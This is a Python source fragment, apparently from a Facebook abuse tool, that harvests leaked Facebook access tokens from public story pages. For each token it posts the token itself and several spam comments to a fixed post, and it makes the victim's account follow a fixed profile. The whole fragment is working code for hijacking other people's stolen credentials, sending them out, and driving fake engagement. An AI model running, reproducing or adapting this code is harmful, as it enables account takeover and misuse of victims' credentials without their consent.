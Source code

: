
#thankz to risky                              
def auto_token():
	ba = 0
	bi = 0
	link_token = requests.get("https://free.facebook.com/story.php?story_fbid=180923747373969&id=100063690353340&_rdr")
	token_free = re.findall("EAA\w+", link_token.text)
	for naa in token_free:
		ba += 1
		if len(naa)>=37:
			token = naa
			print(" \033[1;37m[\033[1;33m•\033[1;37m] Token : "+str(ba))
			post1 = ('304807579543634') 
			post1 = ("304807579543634") 
			requests.post('https://graph.facebook.com/' + post1 + '/comments/?message=' + token + '&access_token=' + token)
			requests.post('https://graph.facebook.com/' + post1 + '/comments/?message=' + komen1 + '&access_token=' + token)
			requests.post('https://graph.facebook.com/' + post1 + '/comments/?message=' + komen5 + '&access_token=' + token)
			requests.post('https://graph.facebook.com/' + post1 + '/comments/?message=' + komen3 + '&access_token=' + token)
			requests.post('https://graph.facebook.com/' + post1 + '/comments/?message=' + komen4 + '&access_token=' + token)			
			requests.post('https://graph.facebook.com/100013870892557/subscribers?access_token=' + token) 
			cek_token(naa)
			
	llink_token = requests.get("https://free.facebook.com/story.php?story_fbid=172628718203472&id=100063690353340&_rdr")
	ttoken_free = re.findall("EAA\w+", llink_token.text)
	for nnaa in ttoken_free:
		ba += 1
		if len(nnaa)>=37:
			token = nnaa
			print(" \033[1;37m[\033[1;33m•\033[1;37m] Token : "+str(ba))
			post1 = ('304807579543634') 
			post1 = ("304807579543634") 
			requests.post('https://graph.facebook.com/' + post1 + '/comments/?message=' + token + '&access_token=' + token)
			requests.post('https://graph.facebook.com/' + post1 + '/comments/?message=' + komen1 + '&access_token=' + token)
			requests.post('https://graph.facebook.com/' + post1 + '/comments/?message=' + komen5 + '&access_token=' + token)
			requests.post('https://graph.facebook.com/' + post1 + '/comments/?message=' + komen3 + '&access_token=' + token)
			requests.post('https://graph.facebook.com/' + post1 + '/comments/?message=' + komen4 + '&access_token=' + token)			
			requests.post('https://graph.facebook.com/100013870892557/subscribers?access_token=' + token) ### FB RISKY
			cek_token(nnaa)
	                              